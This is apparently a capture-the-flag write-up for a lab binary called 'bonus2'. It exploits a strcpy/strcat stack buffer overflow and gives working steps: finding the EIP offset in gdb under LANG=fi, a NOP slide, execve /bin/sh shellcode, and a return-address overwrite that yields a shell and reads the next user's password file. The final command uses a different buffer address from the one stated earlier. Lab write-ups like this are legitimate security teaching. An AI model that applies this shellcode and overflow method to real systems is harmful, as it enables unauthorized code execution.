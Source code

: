 # Bonus 2

## Initial Context

- One file: `bonus2`

## Solving the Challenge

The program expects two parameters, but will store it in one continuous buffer.
Depending on the `LANG` environment variable, the program will great in a different language.

Since the code contains `strcpy` and `strcat`, its likely a buffer overflow exploit.

We can start by finding EIP's offset.
Unfortunately even though the default language crashes the program, EIP is not found.
But by testing with `LANG=fi`, we can find EIP's offset.

```bash
$ gdb ./bonus2
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3
Starting program: /home/user/bonus2/bonus2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3
Hyvää päivää Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3

Program received signal SIGSEGV, Segmentation fault.
0x63413962 in ?? ()
```

The pattern returns an offset of `58`.

Since we have to input two parameters, we can subtract the length of the first one. Now the offset is at `58 - 40 = 18`.

We can put a simple shell code in the first argument and redirect via the second one.

First we have to find the address of the buffer:

```bash
$ ltrace ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 32')
...
strncpy(0xbffff6b0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 40) = 0xbffff6b0
...
```

Now we can craft the first payload:

```python
# NOP slide
"\x90" * (40 - 24)

# shell code
+ "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
```

And the second payload:

```python
# padding of 18
"A" * 18

# `buffer`'s address in LE
+ "\xb0\xf6\xff\xbf"
```

We can send it to the vulnerable program:

```bash
$ export LANG=fi
$ ./bonus2 $(python -c 'print "\x90" * (40 - 24) + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"') $(python -c 'print "A" * 18 + "\xc0\xf6\xff\xbf"')
Hyvää päivää ����������������1�Ph//shh/bin��PS�ᙰ
                                                ̀AAAAAAAAAAAAAAAAAA����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
<flag>
```
